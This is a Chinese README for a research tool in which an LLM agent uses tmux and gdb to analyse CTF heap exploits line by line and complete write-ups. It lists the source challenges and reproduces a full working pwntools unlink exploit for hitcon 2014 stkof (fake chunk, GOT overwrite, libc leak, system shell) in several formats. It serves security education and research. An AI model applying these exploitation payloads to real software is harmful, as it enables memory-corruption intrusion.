


# Exp分析智能体

基于tmux和gdb的write-up补全



## 依赖

- python=3.12
- ubuntu 16.04（建议装docker）

## 文件构成

```
.
├── GDBAgent.py
├── GDBInfo.py
├── LLMBackend.py
├── LLMCallID.py
├── LLMConversation.py
├── LLMLogger.py
├── LLMPromptTemplate.py
├── LLMPrompts
│   ├── AutuGDBPrompt.yaml
│   ├── SummarizeNewPrompt.yaml
│   └── SummarizePrompt.yaml
├── LLMTools
│   ├── RunPwndbgCommand.py
│   └── Tool.py
├── PrototypeAnalysis.py
├── Readme.md
├── SummarizeLLM.py
├── banner.txt
├── conversation_logs
├── data
│   ├── Dockerfile.txt
│   ├── bin
│   │   ├── heap23_00_hitcon_2014_stkof
│   │   ├── ···
│   │   └── heap23_27_Asis_2016_b00ks
│   ├── decompile
│   │   ├── heap23_00_hitcon_2014_stkof.c
│   │   ├── ···
│   │   └── heap23_27_Asis_2016_b00ks.c
│   ├── exp
│   │   ├── heap23_00_hitcon_2014_stkof.py
│   │   ├── ···
│   │   └── heap23_27_Asis_2016_b00ks.py
│   ├── structuredEXP.py
│   └── writeup
│       ├── heap23_00_hitcon_2014_stkof.md
│       ├── ···
│       └── heap23_27_Asis_2016_b00ks.md
├── getGlobalInfo.py
├── main-k0.py
├── main-k1.py
├── main-k2.py
├── result
│   ├── GT-Assist
│   │   ├── summary_heap23_00_hitcon_2014_stkof_20251223_023415.md
│   │   ├── ···
│   │   └── summary_heap23_27_Asis_2016_b00ks_20251223_062905.md
│   └── onlyCexp
│       ├── summary_heap23_00_hitcon_2014_stkof_20260125_073649.md
│       ├── ···
│       └── summary_heap23_27_Asis_2016_b00ks_20260125_085822.md
├── testexp.py
├── timer.sh
└── tmux_gdb_controller.py
```

## 框架

### 大循环

- 每分析一行exp，就建立一轮agent
- agent分析的结果最后会交给SummaryLLM


大循环主体代码由`./main-k1.py`控制

### 小循环Agent构成

单轮分析分三阶段
1. 制定分析计划
2. 使用工具探索当前内存状态空间
3. 总结当前内存状态，将当前状态丢给下一轮Agent



- 提示词模板可参考`./LLMPrompts/AutuGDBPrompt.yaml`
- Agent控制代码为`./GDBAgent.py`

### Write-up生成

总结多轮agent的内存变化分析结果，并且输出最终的writeup

提示词模板参考:
- `./LLMPrompts/SummarizePrompt.yaml`：不借助外源Writeup，纯自己分析
- `./LLMPrompts/SummarizeNewPrompt.yaml`：借助外源Writeup，相当于对已有wp进行补全（默认模式，如果需要修改，则需要修改`AutuGDBPrompt.yaml`

## 数据

### 数据源

本项目所使用ctf及其exp均来自网络，所使用到的write-up来源枚举如下：

| 题名 | 链接 |
|-|-|
| heap23_00_hitcon_2014_stkof | [ctf-wiki](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/unlink/?h=unlink#2014-hitcon-stkof) |
| heap23_01_guosai_201x_pwn1 | [堆入门---unlink的理解和各种题型总结](https://xz.aliyun.com/news/5361) |
| heap23_02_wdb_2018_babyheap | [堆入门---unlink的理解和各种题型总结](https://xz.aliyun.com/news/5361) | 
| heap23_03_zctf_2016_note2 | [[BUUCTF]PWN——zctf2016_note2（unlink）](https://blog.csdn.net/mcmuyanga/article/details/113547320) |
| heap23_04_search_engine | [Search Engine - Pwn 230 Problem - Writeup by Robert Xiao (@nneonneo)](https://github.com/pwning/public-writeup/tree/master/9447ctf2015/pwn230-search) |
| heap23_05_cookbook |  |
| heap23_06_hitcon_2016_sleepyholder | [Sleepy Holder](https://github.com/mehQQ/public_writeup/tree/master/hitcon2016/SleepyHolder) |
| heap23_07_0ctf_2017_babyheap | [babyheap_0ctf_2017 堆利用技巧 解法详录](https://www.cnblogs.com/zhwer/p/13950309.html) |
| heap23_08_hitcontrainning_lab11_bamboobox | [堆入门---unlink的理解和各种题型总结](https://xz.aliyun.com/news/5361)   |
| heap23_09_qwb_2018_silent2 |  [堆入门---unlink的理解和各种题型总结](https://xz.aliyun.com/news/5361)  |
| heap23_10_0CTF_2015_FreeNote | [0CTF 2015 Freenote](https://bbs.kanxue.com/thread-226287-1.htm) |
| heap23_11_pwnable_applestore | [pwnable.tw新手向write up(六) applestore-经典unlink攻击与UAF ](https://bbs.kanxue.com/thread-259476.htm) |
| heap23_12_axb_2019_heap | [axb_2019_heap（格式化字符串+unlink）](https://bbs.kanxue.com/thread-268868.htm#msg_header_h2_21) |
| heap23_13_starctf_2019_girlfriend | [starctf_2019_girlfriend#](https://www.cnblogs.com/LynneHuan/p/15229729.html) |
| heap23_14_wustctf_2020_easyfast | [Fastbin Attack](https://xz.aliyun.com/news/11725) |
| heap23_15_nsctf_online_2019_pwn2 | [(BUUCTF)nsctf_online_2019_pwn2](https://blog.csdn.net/xy1458214551/article/details/134653653) |
| heap23_16_zctf_2016_note3 | [zctf_2016_note3 详解](https://blog.csdn.net/One_p_Two_w/article/details/121142272) |
| heap23_17_ZJCTF_2019_Easyheap | [[Pwn之路] 欢迎来到堆攻击的世界——简单堆溢出原理和例题](https://www.freebuf.com/articles/endpoint/371095.html) |
| heap23_18_hacklu_2014_oreo | [Hack.lu Oreo](https://github.com/guyinatuxedo/ctf/tree/master/hack.lu14/pwn/oreo) |
| heap23_19_0ctf_2018_heapstorm2 | [0ctf2018 heapstorm2详解](https://cloud.tencent.com/developer/article/1096957) |
| heap23_20_bctf_2016_bcloud | [bcloud_bctf_2016](https://www.cnblogs.com/LynneHuan/p/14616450.html) |
| heap23_21_lctf_2016_pwn200 | [【PWN-HEAP学习】House of Spirit 学习笔记](https://blog.csdn.net/SWEET0SWAT/article/details/98852678) |
| heap23_22_seccon_2016_tinypad | [ctf-wiki](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/house-of-einherjar/#2016-seccon-tinypad) |
| heap23_23_xihu_2019_storm_note | [从两道题剖析Largebin Attack](https://www.freebuf.com/articles/system/209096.html) |
| heap23_24_rctf_2019_babyheap | [从两道题剖析Largebin Attack](https://www.freebuf.com/articles/system/209096.html) |
| heap23_25_pwnhub_einherjar_level1 | [PWN堆house-of-einherjar](https://iyheart.github.io/2025/01/15/CTFblog/PWN%E7%B3%BB%E5%88%97blog/Linux_pwn/2.%E5%A0%86%E7%B3%BB%E5%88%97/PWN%E5%A0%86house-of-einherjar/index.html) |
| heap23_26_ctfhub_lore_level1 | [PWN堆house-of-lore](https://iyheart.github.io/2025/02/12/CTFblog/PWN%E7%B3%BB%E5%88%97blog/Linux_pwn/2.%E5%A0%86%E7%B3%BB%E5%88%97/PWN%E5%A0%86house-of-lore/) |
| heap23_27_Asis_2016_b00ks | [ctf-wiki](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/off-by-one/#1-asis-ctf-2016-b00ks) |

如需要查找二进制文件，请参考[buuoj](https://buuoj.cn/challenges)

### 数据格式

所有需要分析的exp必须按照`./data/structuredEXP.py`中的格式进行组织，否则会导致分析失败。对于结构化exp的定义，可参考`GDBInfo.py`中的`EXPCode`类

示例：对`stkof`案例进行处理

以下为作者编写的exp：

```python
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./stkof"
stkof = ELF('./stkof')
if args['REMOTE']:
    p = remote('127.0.0.1', 7777)
else:
    p = process("./stkof")
log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')
head = 0x602140


def alloc(size):
    p.sendline('1')
    p.sendline(str(size))
    p.recvuntil('OK\n')


def edit(idx, size, content):
    p.sendline('2')
    p.sendline(str(idx))
    p.sendline(str(size))
    p.send(content)
    p.recvuntil('OK\n')


def free(idx):
    p.sendline('3')
    p.sendline(str(idx))


def exp():
    # trigger to malloc buffer for io function
    alloc(0x100)  # idx 1
    # begin
    alloc(0x30)  # idx 2
    # small chunk size in order to trigger unlink
    alloc(0x80)  # idx 3
    # a fake chunk at global[2]=head+16 who's size is 0x20
    payload = p64(0)  #prev_size
    payload += p64(0x20)  #size
    payload += p64(head + 16 - 0x18)  #fd
    payload += p64(head + 16 - 0x10)  #bk
    payload += p64(0x20)  # next chunk's prev_size bypass the check
    payload = payload.ljust(0x30, 'a')

    # overwrite global[3]'s chunk's prev_size
    # make it believe that prev chunk is at global[2]
    payload += p64(0x30)

    # make it believe that prev chunk is free
    payload += p64(0x90)
    edit(2, len(payload), payload)

    # unlink fake chunk, so global[2] =&(global[2])-0x18=head-8
    free(3)
    p.recvuntil('OK\n')

    # overwrite global[0] = free@got, global[1]=puts@got, global[2]=atoi@got
    payload = 'a' * 8 + p64(stkof.got['free']) + p64(stkof.got['puts']) + p64(
        stkof.got['atoi'])
    edit(2, len(payload), payload)

    # edit free@got to puts@plt
    payload = p64(stkof.plt['puts'])
    edit(0, len(payload), payload)

    # free global[1] to leak puts addr
    free(1)
    puts_addr = p.recvuntil('\nOK\n', drop=True).ljust(8, '\x00')
    puts_addr = u64(puts_addr)
    log.success('puts addr: ' + hex(puts_addr))
    libc_base = puts_addr - libc.symbols['puts']
    binsh_addr = libc_base + next(libc.search('/bin/sh'))
    system_addr = libc_base + libc.symbols['system']
    log.success('libc base: ' + hex(libc_base))
    log.success('/bin/sh addr: ' + hex(binsh_addr))
    log.success('system addr: ' + hex(system_addr))

    # modify atoi@got to system addr
    payload = p64(system_addr)
    edit(2, len(payload), payload)
    p.send(p64(binsh_addr))
    p.interactive()


if __name__ == "__main__":
    exp()
```

运行exp时，将exp整理为你想分析的步骤

```python
from pwn import *
context.log_level = 'debug' 
context.terminal = ['tmux', 'splitw', '-h'] # 必须使用，否则无法启动tmux
p = process('./data/bin/heap23_00_hitcon_2014_stkof')
elf = ELF('./data/bin/heap23_00_hitcon_2014_stkof')
libc = elf.libc
g_pointer = 0x602140

def alloc(size:int):
    p.sendline(b'1')
    p.sendline(str(size).encode())
    return p.recv()

# 自定义函数之间一定要加回车

def edit(idx:int, size:bytes, content:str):
    p.sendline(b'2')
    p.sendline(str(idx).encode())
    p.sendline(str(size).encode()) 
    if type(content)==str:
        p.sendline(content.encode())
    elif type(content)==bytes:
        p.sendline(content)
    return p.recv()

def free(idx):
    p.sendline(b'3')
    p.sendline(str(idx).encode())
    return p.recv()

def show(idx):
    p.sendline(b'4')
    p.sendline(str(idx).encode())
    return p.recv()

# 具体的执行步骤需要压缩为一行，因为执行的原理是在python终端运行一行exp就分析一次状态

alloc(0x100);alloc(0x30);alloc(0x80)#step.1
payload = p64(0)+ p64(0x20) + p64(g_pointer+16-0x18) + p64(g_pointer+16-0x10) + p64(0x20) + b'a'*8 + p64(0x30) + p64(0x90);edit(2, len(payload), payload)#step.2

free(3)#step.3
payload2 =  b'b'*8 + p64(elf.got['free']) + p64(elf.got['puts']) + p64(elf.got['atoi']);edit(2,len(payload2),payload2)#step.4
payload3 = p64(elf.plt['puts']);edit(0,len(payload3),payload3)#step.5
ret = '0x' + free(1)[:6][::-1].hex()#step.6
puts_addr = int(ret, 16);libc_addr = puts_addr - libc.sym['puts'] ;system_addr = libc_addr + libc.sym['system'];payload4 = p64(system_addr);edit(2,len(payload4),payload4)#step.7
p.interactive()
```

再转化为以下的字符串格式（有点复杂）

```python
heap23_00_hitcon_2014_stkof = EXPCode(
    ExpCodePath="./data/exp/heap23_00_hitcon_2014_stkof.py",
    DecompileCodePath="./data/decompile/heap23_00_hitcon_2014_stkof.c",
    InitializeCode=[
        "from pwn import *",
        "context.log_level = 'debug'",
        "context.terminal = ['tmux', 'split-window', '-h']",
        "p = process('./data/bin/heap23_00_hitcon_2014_stkof')",
        "elf = ELF('./data/bin/heap23_00_hitcon_2014_stkof')",
        "libc = elf.libc",
        "g_pointer = 0x602140"
    ],
    DIYFunctions=[
        [
            "def alloc(size:int):",
            "    p.sendline(b'1')",
            "    p.sendline(str(size).encode())",
            "    return p.recv()",
        ],
        [
            "def edit(idx:int, size:bytes, content:str):",
            "    p.sendline(b'2')",
            "    p.sendline(str(idx).encode())",
            "    p.sendline(str(size).encode())",
            "    if type(content)==str:",
            "        p.sendline(content.encode())",
            "    elif type(content)==bytes:",
            "        p.sendline(content)",
            "    return p.recv()",
        ],
        [
            "def free(index:int):",
            "    p.sendline(b'3')",
            "    p.sendline(str(index).encode())",
            "    return p.recv()",
        ],
        [
            "def show(index:int):",
            "    p.sendline(b'4')",
            "    p.sendline(str(index).encode())",
            "    return p.recv()",
        ],
    ],
    ExploitCode=[
        "alloc(0x100);alloc(0x30);alloc(0x80)",
        "payload = p64(0)+ p64(0x20) + p64(g_pointer+16-0x18) + p64(g_pointer+16-0x10) + p64(0x20) + b'a'*8 + p64(0x30) + p64(0x90);edit(2, len(payload), payload)",
        "free(3)",
        "payload2 =  b'b'*8 + p64(elf.got['free']) + p64(elf.got['puts']) + p64(elf.got['atoi']);edit(2,len(payload2),payload2)",
        "payload3 = p64(elf.plt['puts']);edit(0,len(payload3),payload3)",
        "ret = '0x' + free(1)[:6][::-1].hex()",
        "puts_addr = int(ret, 16);libc_addr = puts_addr - libc.sym['puts'] ;system_addr = libc_addr + libc.sym['system'];payload4 = p64(system_addr);edit(2,len(payload4),payload4)",
        #p.interactive(),
    ],
)
```

## 参考

部分后端的实现参考了代码[nyu-ctf-llm](https://github.com/NYU-LLM-CTF/nyuctf_agents)
